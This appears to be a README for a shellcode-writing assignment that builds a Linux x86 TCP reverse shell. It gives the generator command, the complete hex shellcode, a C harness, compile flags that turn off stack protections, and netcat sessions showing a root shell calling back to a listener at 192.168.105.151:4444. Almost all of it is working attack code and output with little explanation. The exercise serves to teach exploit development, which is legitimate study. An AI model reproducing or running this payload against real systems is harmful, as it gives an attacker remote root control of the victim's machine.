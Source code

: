 # Assignment 2: Linux x86 TCP Reverse Shell

To generate the shellcode, run the python wrapper script `tcp_reverse_shell_x86.py` and supply alistening host and port:

```bash
python3 tcp_reverse_shell_x86.py -l 192.168.105.151 -p 4444
[*] Generating shellcode for x86 TCP reverse shell on 192.168.105.151:4444
[*] Shellcode length: 104 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x3f\x57\x96\x68\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

Copy the shellcode output and paste into the `code` variable of `shellcode.c`:

```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x3f\x57\x96\x68\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
...
```

Compile the shellcode using gcc:

```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Start a netcat listener on the remote host:

```bash
nc -nlvp 4444                                                                                                                           1 ⨯
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

Run the compiled binary:

```bash
./shellcode 
Shellcode Length: 116
```

Connect to the reverse shell over the chosen port using netcat:

```bash
nc -nlvp 4444                                  
listening on [any] 4444 ...
connect to [192.168.105.151] from (UNKNOWN) [192.168.105.151] 46240
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

---

